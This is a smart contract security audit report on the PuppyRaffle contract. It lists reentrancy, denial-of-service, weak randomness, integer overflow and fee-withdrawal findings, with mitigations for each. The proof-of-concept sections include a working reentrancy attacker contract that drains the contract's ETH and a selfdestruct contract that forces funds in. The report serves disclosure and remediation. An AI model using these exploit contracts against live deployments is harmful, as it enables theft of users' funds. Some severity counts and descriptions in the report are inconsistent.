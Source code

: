 # PuppyRaffle Security Review

## Overview
This document contains the findings of the PuppyRaffle smart contract security review.

## Severity Classification
- High: Vulnerabilities that can lead to loss of funds or complete contract failure
- Low: Issues that should be fixed but don't pose immediate risks

## Findings Summary
- 3 High severity findings
- 2 Medium severity findings
- 1 Low severity finding

## Detailed Findings

### [H-1] Reentrancy in `PuppyRaffle::refund()` allows attacker to drain all the funds from the contract

**Description:** The `PuppyRaffle::refund()` function doesn't follow CEI (Checks, Effects, Interactions) pattern. A malicious actor can exploit this by creating a contract with a fallback/receive function that calls `refund()` again when receiving ETH, allowing them to repeatedly withdraw funds before their player status is removed. This can continue until the contract's balance is drained.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
  @>    payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** An attacker can drain all ETH from the contract, stealing funds from other participants and making the raffle system inoperable.

**Proof of Concept:**
<details>
<summary>PoC</summary>

```javascript
//SPDX-License-Identifier: MIT;
pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";

contract ReentrancyAttacker {
    PuppyRaffle target;
    uint256 playerIndex;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }
    
    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        target.enterRaffle{value: target.entranceFee()}(players);
        playerIndex = target.getActivePlayerIndex(address(this));
        target.refund(playerIndex);
    }

    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.refund(playerIndex);
        }
    }
}
```
</details>

**Recommended Mitigation:** Update the `refund()` function to follow the CEI pattern by moving the state changes before the external call:

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` is a potential DoS attack

**Description:** The `PuppyRaffle::enterRaffle()` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more gas costs for future entrants. Every additional address in the `players` array is an additional check the loop have to make.

```javascript
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first to enter. An attacker might make the `PuppyRaffle::players` array so big that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**
If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6,252,037 gas
- 2nd 100 players: ~20,376,508 gas

<details>
<summary>PoC</summary>

```javascript
function test_denialOfService() public {
    vm.txGasPrice(1);
    address USER = makeAddr("user");
    vm.deal(USER, 1000000 ether);
    uint256 numPlayers = 200;
    address[] memory newPlayers = new address[](numPlayers);

    for (uint256 i = 0; i < numPlayers; i++) {
        newPlayers[i] = address(i);
    }

    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(newPlayers);
    uint256 gasEnd = gasleft();
    uint256 gasUsed = gasStart - gasEnd;
    console.log(gasUsed);
}
```
</details>

**Recommended Mitigation:** Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a wallet has already entered:

```diff
+ uint256 public raffleID;
+ mapping (address => uint256) public usersToRaffleId;

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates
+           require(usersToRaffleId[newPlayers[i]] != raffleID, "PuppyRaffle: Already a participant");
            players.push(newPlayers[i]);
+           usersToRaffleId[newPlayers[i]] = raffleID;
        }

-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }

        emit RaffleEnter(newPlayers);
    }

    function selectWinner() external {
        //Existing code
+       raffleID = raffleID + 1;        
    }
```

### [H-3] `PuppyRaffle::selectWinner()` uses weak randomization for winner selection

**Description:** The use of keccak256 hash functions on predictable values like block.timestamp, block.number, or similar data, including modulo operations on these values, should be avoided for generating randomness, as they are easily predictable and manipulable. The PREVRANDAO opcode also should not be used as a source of randomness.

**Impact:** Weak randomization can lead to predictable winner selection, potentially allowing an attacker to manipulate the outcome of the raffle.

**Recommended Mitigation:** Utilize Chainlink VRF for cryptographically secure and provably random values to ensure protocol integrity.

### [M-1] Integer overflow vulnerability in `PuppyRaffle::totalFees` allows fees to be reset

**Description:** In Solidity versions prior to 0.8.0, arithmetic operations can overflow/underflow without reverting. The `PuppyRaffle` contract uses Solidity 0.7.6 and declares `totalFees` as a `uint64`, which can only store values up to 2^64 - 1 (18,446,744,073,709,551,615).

```javascript
contract PuppyRaffle {
    uint64 public totalFees = 0;
    ...
}
```

**Impact:** The contract owner could lose fee revenue when `totalFees` overflows if totalfees greater than 18,446,744,073,709,551,615 (~18.5 ethers).

**Proof of Concept:**
```javascript
uint64 totalFees = 18446744073709551615;
totalFees = totalFees + 1;
console.log(totalFees);
// result is 0
```

**Recommended Mitigation:** Change `totalFees` to use `uint256` instead of `uint64` to prevent overflow:

```diff
contract PuppyRaffle {
-    uint64 public totalFees = 0;
+    uint256 public totalFees = 0;
}
```

Alternatively, upgrade to Solidity 0.8.0 or later which includes built-in overflow protection.

### [M-2] WithdrawFees can be broken if someone sends ETH directly to the contract

**Description:** The `PuppyRaffle::withdrawFees()` function checks if the contract balance is equal to `totalFees`. If someone sends some ETH to the contract, it will break the withdrawFees function.

**Impact:** The owner can't withdraw the fees.

**Proof of Concept:**
<details>
<summary>PoC</summary>

```javascript
//SPDX-License-Identifier: MIT;
pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";

contract WithdrawFeesAttacker {
    PuppyRaffle target;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }

    function attack() public {
        selfdestruct(payable(address(target)));
    }
}
```
</details>

**Recommended Mitigation:** Change the logic of withdrawFees and consider withdrawing all the balance instead of checking if it's equal to totalFees.

### [L-1] `PuppyRaffle::withdrawFees()` cannot withdraw fees while players are in the raffle

**Description:** The `PuppyRaffle::withdrawFees()` function checks if there are any players in the raffle, and if there are, it prevents the owner from withdrawing the fees.

**Impact:** The owner can't withdraw the fees if there are players in the raffle.

**Proof of Concept:**
```javascript
function withdrawFees() external {
    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```

**Recommended Mitigation:** Modify the withdrawFees logic to allow withdrawal while there are players in the raffle:

```diff
function withdrawFees() external {
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```
